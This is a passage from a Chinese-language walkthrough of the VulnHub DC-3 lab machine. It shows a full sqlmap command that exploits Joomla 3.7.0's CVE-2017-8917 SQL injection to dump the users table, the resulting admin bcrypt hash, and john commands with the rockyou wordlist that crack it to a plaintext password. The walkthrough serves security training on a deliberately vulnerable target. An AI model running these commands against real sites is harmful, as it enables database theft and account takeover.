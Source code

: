 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/15.png)

Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞，更多漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Joomla)

直接 SQLMAP 走起
```bash
sqlmap -u "http://192.168.141.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```

一路 y 就行了，可以看到跑出了后台账号密码

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/6.png)

```
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是 bcrypt 加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑
```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/7.png)

ok,跑出密码 `snoopy` ,登录,注意不是在 `http://192.168.141.138/index.php` 登录，而是在 `http://192.168.141.138/administrator/index.php` 登录，这 TM 才是后台
